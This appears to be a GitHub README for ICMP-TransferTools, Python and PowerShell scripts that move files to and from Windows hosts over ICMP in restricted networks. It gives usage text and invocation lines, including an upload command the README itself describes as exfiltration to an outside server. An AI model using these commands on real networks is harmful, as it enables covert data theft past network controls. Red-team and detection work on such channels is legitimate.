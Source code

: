 # ICMP-TransferTools
ICMP-TransferTools is a set of scripts designed to move files to and from Windows hosts in restricted network environments. This is accomplished using a total of 4 different files, consisting of a python server and powershell client for each transfer direction (Download & Upload).

The only dependency required is `Impacket` for one of the python scripts. It can be installed via pip like so:
```
pip3 install impacket
```

## Download via ICMP
The included `ICMP-SendFile.py` and `Invoke-IcmpDownload.ps1` scripts can be used to download a file to a Windows host via ICMP.

The python server must be run first to stage the file for download. See below for the script's usage:
```
usage: ICMP-SendFile.py [-h] [-v] [-b 1000] source destination file

ICYGUIDER'S ICMP FILE DOWNLOAD SERVER

positional arguments:
  source                Public IP address of current host
  destination           Public IP address of destination host
  file                  File to transfer over ICMP

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbosely print progress
  -b 1000, --block-size 1000
                        Size of each block (Default: 1000)
```

Once imported, the powershell client can then be used to download the staged file like so:
```
Invoke-IcmpDownload PublicIPAddressOfServer FileToDownload
```
 
See below for a quick demonstration:

![Download Demo Gif](https://i.imgur.com/xWlZutV.gif)

## Upload via ICMP
The included `ICMP-ReceiveFile.py` and `Invoke-IcmpUpload.ps1` scripts can be used to upload/exfiltrate a file from a Windows host via ICMP.

The python server must be run first to ensure it's ready to accept requests from the client. See below for the script's usage:
```
usage: ICMP-ReceiveFile.py [-h] src file

ICYGUIDER'S ICMP FILE UPLOAD SERVER

positional arguments:
  src         Public IP Address of client
  file        File to write data to

optional arguments:
  -h, --help  show this help message and exit
```

Once imported, the powershell client can then be used to upload the desired file like so:
```
Invoke-IcmpUpload PublicIPAddressOfServer FileToUpload
```

See below for a quick demonstration:

![Upload Demo Gif](https://i.imgur.com/4fWaZi3.gif)
